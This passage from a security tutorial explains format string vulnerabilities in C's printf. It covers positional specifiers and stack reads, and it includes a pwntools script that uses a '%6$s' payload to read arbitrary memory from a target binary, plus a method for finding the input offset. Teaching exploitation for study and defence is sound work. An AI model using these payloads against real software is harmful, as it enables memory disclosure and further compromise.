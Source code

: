 ### **Accessing Pointers**

The format **`%<n>$x`**, where `n` is a number, allows to indicate to printf to select the n parameter (from the stack). So if you want to read the 4th param from the stack using printf you could do:

```c
printf("%x %x %x %x")
```

and you would read from the first to the forth param.

Or you could do:

```c
printf("%4$x")
```

and read directly the forth.

Notice that the attacker controls the `printf` **parameter, which basically means that** his input is going to be in the stack when `printf` is called, which means that he could write specific memory addresses in the stack.

{% hint style="danger" %}
An attacker controlling this input, will be able to **add arbitrary address in the stack and make `printf` access them**. In the next section it will be explained how to use this behaviour.
{% endhint %}

## **Arbitrary Read**

It's possible to use the formatter **`%n$s`** to make **`printf`** get the **address** situated in the **n position**, following it and **print it as if it was a string** (print until a 0x00 is found). So if the base address of the binary is **`0x8048000`**, and we know that the user input starts in the 4th position in the stack, it's possible to print the starting of the binary with:

```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```

{% hint style="danger" %}
Note that you cannot put the address 0x8048000 at the beginning of the input because the string will be cat in 0x00 at the end of that address.
{% endhint %}

### Find offset

To find the offset to your input you could send 4 or 8 bytes (`0x41414141`) followed by **`%1$x`** and **increase** the value till retrieve the `A's`.

